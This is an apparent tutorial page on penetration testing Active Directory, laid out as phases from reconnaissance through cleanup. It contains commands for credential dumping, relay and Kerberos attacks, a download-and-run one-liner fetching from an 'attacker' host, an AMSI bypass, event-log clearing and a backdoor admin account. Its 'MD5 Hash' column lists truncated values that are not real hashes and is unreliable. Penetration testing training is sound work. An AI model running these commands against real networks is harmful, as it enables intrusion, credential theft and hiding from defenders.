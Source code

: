 # Active Directory Penetration Testing - Basics to Advance

> A comprehensive, step-by-step guide to Active Directory attacks—from beginner concepts to advanced exploitation—equipping you with practical skills, tools, and techniques essential for real-world penetration testing, red teaming, and security analysis.
<div class="ad-module">

## 🧭 Objectives

You will Learn:

- AD core concepts
- Recon and enumeration
- Gaining and abusing credentials
- Movement and escalation
- Attacking Kerberos, trusts, and related systems
- Post-exploitation, evasion, and cleanup
- A Full Mind map of AD Hacking
</div>

<div class="ad-module">

## 🧱 Phase 1: Active Directory Basics

**Definition:** Active Directory (AD) is Microsoft’s centralized domain management system that authenticates and authorizes users and computers.

**Core Components:**

- **Domain Controllers (DCs):** Store the AD database and handle authentication
- **Domains, Forests, Trees:** Logical structures for organizing resources
- **Organizational Units (OUs):** Containers for grouping users, computers
- **Group Policy Objects (GPOs):** Define rules and security settings

**Protocols & Services:**

- **Kerberos & NTLM** for authentication
- **LDAP** for querying the directory
- **DNS, SMB, RPC** for communication

</div>

<div class="ad-module">

## 🛰️ Phase 2: Reconnaissance Phase

**Goal:** Map the network and identify live hosts/services.

**Tools:** netdiscover, nmap, nbtscan, masscan

```bash
netdiscover -i eth0
nmap -sP 192.168.1.0/24
masscan 192.168.1.0/24 -p1-65535 --rate=10000
nbtscan 192.168.1.0/24
```

</div>

<div class="ad-module">

## 🔍 Phase 3: Enumeration Phase

**Goal:** Discover domain details—users, shares, GPOs, etc.

**Tools:** enum4linux, smbclient, ldapsearch, rpcclient, BloodHound, ADExplorer

```bash
enum4linux -a 192.168.1.100
smbclient -L \\192.168.1.100 -N
ldapsearch -x -H ldap://192.168.1.100 -b "dc=domain,dc=local"
```

</div>

<div class="ad-module">

## 🚪 Phase 4: Initial Access

**Goal:** Obtain a foothold using weak auth or misconfig.

**Techniques:** AS-REP Roasting, NTLM Relay, LLMNR Poisoning

```bash
GetNPUsers.py domain.local/ -no-pass -usersfile users.txt -dc-ip 192.168.1.100
responder -I eth0
mitm6 -i eth0

```

</div>

<div class="ad-module">

## 🔐 Phase 5: Credential Access

**Goal:** Extract passwords, hashes, and tickets.

**Tools:** mimikatz, secretsdump, pypykatz

```bash
mimikatz > sekurlsa::logonpasswords
secretsdump.py domain/user:pass@192.168.1.100

```

</div>

<div class="ad-module">

## 📡 Phase 6: Lateral Movement

**Goal:** Move to other systems after initial access.

**Tools:** wmiexec, psexec, crackmapexec

```bash
wmiexec.py domain/user:pass@192.168.1.101
psexec.py domain/user:pass@192.168.1.101

```

</div>

<div class="ad-module">

## 📈 Phase 7: Privilege Escalation

**Goal:** Escalate local user to SYSTEM or Domain Admin.

**Tools:** winPEAS, PowerUp, Seatbelt

```bash
winPEAS.exe
powershell -ep bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://attacker/PowerUp.ps1'); Invoke-AllChecks"

```

</div>

<div class="ad-module">

## 🧲 Phase 8: Persistence Techniques

**Goal:** Maintain long-term access.

```powershell
net user attacker P@ssw0rd /add
net localgroup administrators attacker /add
schtasks /create /tn "Backdoor" /tr "cmd.exe /c whoami >> C:\backdoor.txt" /sc minute /mo 5

```

</div>

<div class="ad-module">

## 🎭 Phase 9: Kerberos Attacks

**Goal:** Abuse ticketing mechanisms.

**Tools:** Rubeus, GetUserSPNs, hashcat

```bash
GetUserSPNs.py domain/user:pass -dc-ip 192.168.1.100
hashcat -m 13100 hashes.txt rockyou.txt --force

```

</div>

<div class="ad-module">

## 🏛️ Phase 10: Domain Escalation

**Goal:** Gain Domain Admin or take over trusts.

```bash
lsadump::dcsync /domain:domain.local /user:Administrator
Invoke-ACLScanner
Invoke-AddComputer

```

</div>

<div class="ad-module">

## 🧾 Phase 11: Post-Exploitation

**Goal:** Data collection, pivoting, intel gathering.

```bash
findstr /S /I cpassword \\dc\sysvol
LaZagne.exe browsers

```

</div>

<div class="ad-module">

## 🕵️ Phase 12: Defense Evasion

**Goal:** Avoid detection during attacks.

```powershell
Clear-EventLog -LogName Security
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

```

</div>

<div class="ad-module">

## 🧹 Phase 13: Cleanup

**Goal:** Remove traces post-assessment.

```powershell
net user attacker /del
schtasks /delete /tn "Backdoor"
Clear-EventLog -LogName System

```

</div>

<div class="ad-module">

## 🖧 Phase 14: Connected System Attacks

**Exchange:**

```powershell
Invoke-SelfSearch -Mailbox user@domain.local -SearchQuery 'password'

```

**SCCM:** Abuse deployment paths or extract config.

**ADFS:** Golden SAML, token forging

</div>

## 🧪 Tools & References

| Tool | Use | MD5 Hash |
| --- | --- | --- |
| Mimikatz | Dump credentials | b72868aa |
| BloodHound | AD relationship mapping | 358a13fe |
| Impacket | Remote command & Kerberos | 8102db6b |
| CrackMapExec | Lateral movement and enum | 118802fb |
| Responder | LLMNR spoof | 34bdf2dc |
| PEASS-ng | Privesc check | a1074bbf |
| PowerSploit | PowerShell recon/privesc | 473d90f6 |



## 🧠 Advanced: Active Directory Mind Map

<a href="/assets/img/pentest_ad_dark_2022_11.svg" target="_blank" onclick="window.open(this.href, '_blank'); return false;" style="display:inline-block;padding:10px 20px;font-size:1.1em;margin-bottom:15px;background:#2d7ff9;color:#fff;text-decoration:none;border:none;border-radius:5px;cursor:pointer;">Open Mind Map</a>
<script type="text/javascript">
  document.addEventListener('DOMContentLoaded', function() {
    var links = document.querySelectorAll('a[href$="pentest_ad_dark_2022_11.svg"]');
    links.forEach(function(link) {
      link.addEventListener('click', function(e) {
        e.preventDefault();
        var win = window.open('', '_blank');
        win.document.write('<html><head><title>Active Directory Mind Map</title></head><body style="margin:0;background:#222;display:flex;align-items:center;justify-content:center;height:100vh;"><img src="' + link.href + '" style="width:33vw;height:auto;max-width:none;box-shadow:0 2px 8px rgba(0,0,0,0.2);background:#fff;border-radius:8px;" /></body></html>');
      });
    });
  });
</script>



